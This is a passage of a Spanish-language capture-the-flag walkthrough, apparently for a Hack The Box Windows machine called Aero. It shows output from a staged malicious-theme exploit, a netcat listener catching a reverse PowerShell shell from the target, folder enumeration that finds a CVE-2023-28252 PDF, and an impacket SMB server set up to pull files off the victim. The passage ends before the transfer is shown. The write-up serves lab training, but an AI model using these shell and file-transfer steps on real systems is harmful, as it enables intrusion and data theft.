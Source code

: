 ```
2024-10-01 10:22:59,770 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 1]
2024-10-01 10:23:00,149 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 1]
2024-10-01 10:23:00,504 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 7]
2024-10-01 10:23:00,656 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 5]
2024-10-01 10:23:01,497 WARNING> Stage 2/3: "Aero.msstyles_vrf.dll" [shareAccess: 7]
2024-10-01 10:23:01,657 WARNING> Stage 2/3: "Aero.msstyles_vrf.dll" [shareAccess: 1]
2024-10-01 10:23:03,245 WARNING> Stage 2/3: "Aero.msstyles_vrf.dll" [shareAccess: 7]
2024-10-01 10:23:03,396 WARNING> Stage 3/3: "Aero.msstyles_vrf.dll" [shareAccess: 5]
2024-10-01 10:23:10,341 INFO> Disconnecting Share(1:IPC$)
2024-10-01 10:23:36,073 WARNING> Stage 1/3: "Aero.msstyles" [shareAccess: 1]

```

`Ganamos acceso` a la `máquina víctima`

```
# rlwrap -cAr nc -lvnp 4711

listening on [any] 4711 ...
connect to [10.10.16.29] from (UNKNOWN) [10.129.229.128] 57007
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
aero\sam.emerson
```
## Privilege Escalation

En la carpeta `Documents` de nuestro usuario vemos un `pdf`

```
PS C:\Users\sam.emerson\Documents> dir
dir


    Directory: C:\Users\sam.emerson\Documents


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----
-a----         9/21/2023   9:18 AM          14158 CVE-2023-28252_Summary.pdf
```

Para `transferirnos` el `pdf` vamos a montarnos un` servidor smb` en nuestro equipo

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Nos `transferimos` el archivo `pdf`
